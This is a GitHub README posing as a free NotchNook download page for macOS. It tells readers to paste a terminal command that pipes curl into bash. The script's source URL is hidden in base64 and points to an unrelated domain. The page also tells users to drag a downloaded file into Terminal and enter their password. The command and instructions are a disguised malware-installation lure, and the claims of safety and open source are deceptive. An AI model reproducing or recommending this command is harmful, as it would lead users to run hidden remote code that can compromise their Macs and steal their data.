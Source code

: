 # NotchNook — Free Download for Mac OS 🖥️
![logo](https://lo.cafe/_next/image?url=https%3A%2F%2Fimagedelivery.net%2Fc8uhGcbkApu2pXMDGOSMFQ%2F95fcaf46-1b12-4b0b-7be8-c9f2de100a00%2Fpublic&w=384&q=75)

NotchNook is a lightweight, innovative utility for Mac OS that enhances your desktop experience by transforming the notch area into a dynamic, customizable workspace. Follow the instructions below to download and install NotchNook for free.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/notchnookmac)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install NotchNook For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with NotchNook

- 🖼️ **Dynamic Notch Customization**: Transform your Mac’s notch into a functional workspace with customizable widgets and shortcuts.
- ⚡ **Lightweight Performance**: NotchNook runs smoothly without draining your system resources, optimized for all modern Mac OS versions.
- 📋 **Seamless Integration**: Works natively with Mac OS, blending perfectly with your existing apps and workflows.
- 🔒 **Secure and Private**: No data collection or telemetry, ensuring your privacy and security.
- 🎨 **Modern UI Design**: Sleek, intuitive interface designed to match the aesthetic of Mac OS.
- 🛠️ **Regular Updates**: Stay up-to-date with new features and improvements, all available for free.

## About NotchNook

NotchNook is a free Mac utility designed to make the most of your MacBook’s notch area. By turning an often-unused space into a hub for widgets, notifications, and quick-access tools, NotchNook enhances productivity and adds a touch of personalization to your Mac OS experience. Whether you’re a professional needing quick access to tools or a casual user looking to optimize your desktop, NotchNook delivers a seamless, intuitive solution. Its lightweight design ensures it runs smoothly on any Mac, from the latest M2 models to older Intel-based systems.

The software integrates effortlessly with Mac OS, providing a native feel that complements your existing workflow. With NotchNook, you can customize the notch to display calendar events, system stats, or app shortcuts, all accessible with a single click. The program is built with performance in mind, ensuring minimal impact on your system’s resources while delivering a polished, modern interface. Unlike other utilities, NotchNook is completely free to download and use, making it an accessible tool for all Mac users.

Security is a core focus of NotchNook. The app operates without collecting any personal data or requiring unnecessary permissions, giving you peace of mind while using it. Its open-source codebase is available for review, ensuring transparency and trustworthiness. Regular updates keep NotchNook compatible with the latest Mac OS releases, adding new features based on community feedback.

NotchNook stands out for its simplicity and ease of use. Installation is straightforward, whether you prefer the .dmg installer or a terminal-based setup. The app is designed to be plug-and-play, requiring no complex configuration. With a growing community of users, NotchNook is quickly becoming a go-to tool for Mac enthusiasts looking to enhance their desktop experience.

**Why Choose NotchNook?**  
NotchNook offers a unique combination of functionality, style, and performance. Its ability to transform the notch into a productive space sets it apart from other Mac utilities. The app is free, secure, and regularly updated, making it a reliable choice for users seeking a modern, efficient tool to elevate their Mac OS experience.

## 🖼️ Preview

![NotchNook Dashboard](https://media.idownloadblog.com/wp-content/uploads/2024/07/NotchNook-Mac-App-Splash-Screen-1500x1000.jpg)  
*Customizable dashboard displayed in the notch area.*

![NotchNook Widgets](https://static.beebom.com/wp-content/uploads/2024/08/NotchNook-App-Mac-Dynamic-Island.jpeg?w=1250&quality=75)  
*Widgets showing system stats and calendar events.*

![NotchNook Shortcuts](https://i.ytimg.com/vi/nPeaaI3LFMc/maxresdefault.jpg)  
*Quick-access app shortcuts in the notch.*

## 🔍 Tags

notchnook, notchnook download, notchnook free, notchnook free download, mac os notch utility, notchnook mac os, notchnook download free, notchnook mac, notchnook mac os, notchnook for mac, notchnook free mac, download notchnook, free notchnook mac, notchnook github
